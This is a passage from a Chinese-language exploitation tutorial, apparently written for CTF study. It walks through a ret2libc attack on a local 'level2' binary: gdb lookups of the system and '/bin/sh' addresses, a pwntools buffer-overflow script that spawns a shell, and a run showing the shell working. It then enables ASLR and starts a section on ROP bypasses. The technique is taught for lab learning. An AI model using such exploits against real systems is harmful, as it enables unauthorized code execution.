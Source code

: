 <pre class="prettyprint" nodeIndex="91">
<code nodeIndex="181">#!bash
$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
….
(gdb) break main
Breakpoint 1 at 0x8048430
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level2 

Breakpoint 1, 0x08048430 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
warning: Unable to access target memory at 0xb7fc8500, halting search.
1 pattern found.
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"
</code>
</pre>
<p nodeIndex="92">我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。下面我们开始写exp：</p>
<pre class="prettyprint" nodeIndex="93">
<code nodeIndex="182">#!python
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()
</code>
</pre>
<p nodeIndex="94">要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：</p>
<pre class="prettyprint" nodeIndex="95">
<code nodeIndex="183">#!python
$ python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
$ whoami
mzheng
</code>
</pre>
<p nodeIndex="96">OK。测试成功。</p>
<h2 nodeIndex="97">0x03 ROP– Bypass DEP and ASLR 通过ROP绕过DEP和ASLR防护</h2>
<p nodeIndex="98">接下来我们打开ASLR保护。</p>
<pre class="prettyprint" nodeIndex="99">
<code nodeIndex="184">#!bash
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
</code>
</pre>
<p nodeIndex="100">现在我们再回头测试一下level2的exp，发现已经不好用了。</p>